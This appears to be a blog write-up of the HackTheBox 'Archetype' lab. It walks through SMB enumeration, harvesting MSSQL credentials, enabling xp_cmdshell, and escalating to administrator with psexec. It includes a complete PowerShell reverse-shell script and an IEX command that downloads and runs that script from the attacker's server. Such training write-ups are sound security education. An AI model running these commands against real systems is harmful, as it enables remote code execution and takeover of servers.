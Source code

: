 ```yaml
---
layout: post
title: "Archetype - HTB starting point"
date: 2021-04-07 00:00:0
permalink: starting-point-archetype/
tags: hackthebox "starting point"
---
```


* __Target IP:__ 10.10.10.27 
* __Tools used:__ nmap, smbclient, mssqclient.py, python3, ufw, nc, psexec.py

_This is gonna be a lil bit detailed since it's the first machine in this series. I use ubuntu, so you might not need to use `sudo`_

## __Phase 1:__ Enumeration

We scan the IP for the open ports using `nmap`
```shell
$ nmap -sC -sV -O -oA nmap/archetype 10.10.10.27
```

<img src="/assets/images/archetype/nmap-scan-1-archetype.png">

We found two crucial ports open:<br>
On `445` __SMB__ is running <br>
On `1433` __SQL__ is running

Lets check if anonymous login is available on __SMB__

```shell
$ smbclient -N -L //10.10.10.27/
```
<img src="/assets/images/archetype/smb-1-archetype.png">

Lets enumerate `backups` share/directory because it might contain config files which usually have usernames and passwords
```shell
$ smbclient -N //10.10.10.27/backups
```
<img src="/assets/images/archetype/smb-2-archetype.png">

After listing directory contents using `dir`<br>
`prod.dtsConfig` file is found. It's a config file of __SQL__. <br>
Download the file using `get prod.dtsConfig`<br>
Contents of the file:

<img src="/assets/images/archetype/config-file-archetype.png">

We got SQL _user creds:_ <br>
__User ID__ = ARCHETYPE\sql_svc <br>
__Password__ = M3g4c0rp123

Now that we've SQL creds, we can establish a SQL connection using `mssqlclient.py` -  can be found in examples folder of [impackets](https://github.com/SecureAuthCorp/impacket)
```shell
$ python3 mssqlclient.py sql_svc@10.10.10.27 -windows-auth
```
It asks for the password, give the password we found in config file

<img src="/assets/images/archetype/sql-connection-archetype.png">
Lets check if we've administrative privileges on SQL database
```shell
SQL> SELECT IS_SRVROLEMEMBER('sysadmin')
```
<img src="/assets/images/archetype/sql-srvrolemember-archetype.png">

We got output as `1` - meaning: Yes, we've indeed.

Now, we can configure few database settings so that we can run `cmd` commands on the host system - system that's hosting this database, in our case that's our target `10.10.10.27`

To execute cmd commands through SQL shell, there's a command called `xp_cmdshell`.<br>
* To enable this we need administrative privileages that's why we checked if we'd admin privileages or not.<br>
* Second thing is to enable `show advanced options`

Let's check default values:
```shell
SQL> sp_configure
```
<img src="/assets/images/archetype/sql-sp-configure-archetype.png">
<img src="/assets/images/archetype/sql-advanced-option-initial-archetype.png">

* To enable `show advanced options`:

```shell
SQL> EXEC sp_configure 'show advanced options', 1
SQL> reconfigure;
```

* To enable `xp_cmdshell`:

```shell
SQL> EXEC sp_configure 'xp_cmdshell', 1
SQL> reconfigure;
SQL> sp_configure;
```
After enabling both

<img src="/assets/images/archetype/sql-sp-configure-set-archetype.png">

Now we can run `cmd` commands using 
`xp_cmdshell`
```shell
SQL> xp_cmdshell 'whoami'
```
<img src="/assets/images/archetype/sql-whoami-archetype.png">
Now lets get a reverse shell using powershell script

## __Phase 2:__ Foothold

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.41",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 
```

* Copy the above `powershell` script into a file with extension `.ps1`
* Change the `IP` in the script to your own htb IP

Start a python server in reverse shell script folder, so that we can download the script onto victim system and run it.
```shell
$ sudo python3 -m http.server 80
```
Start a listener using `netcat`. When victim system tries to connect to us, we need to listen for it. Hence the name: `reverse shell` 
```shell
$ sudo nc -lvnp 443
```
I'm ubuntu, so firewall is not enabled by default but if you're on parrot security then it is enabled by default. Then you need to allow connections from target IP

```shell
$ sudo ufw allow from 10.10.10.27 proto tcp to any port 80,443
```

Run the below command to download our shell script onto the target system and execute it. <br>
Here also change the IP
```shell
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.41/shell.ps1\");
```

Check the nc listner status <br>
And when connection established.. <br>
You can read the _user.txt_ but that's not needed in this challenge.

Let's check the powershell history to view what were the user's recent actions and looks like we found:

__Administrator password:__ MEGACORP_4dm1n!!

<img src="/assets/images/archetype/nc-archetype.png">

## __Phase 3:__ Privilege Escalation
Now that we have admin password, we can try logging in using `psexec.py` can be found in impacket/examples
```shell
$ sudo python3 psexec.py administrator@10.10.10.27 
```
It prompts for password, enter the password and you have the SHELL!!

```
$ type c:\users\administrator\desktop\root.txt
```

##### Submit the flag, happy hacking :)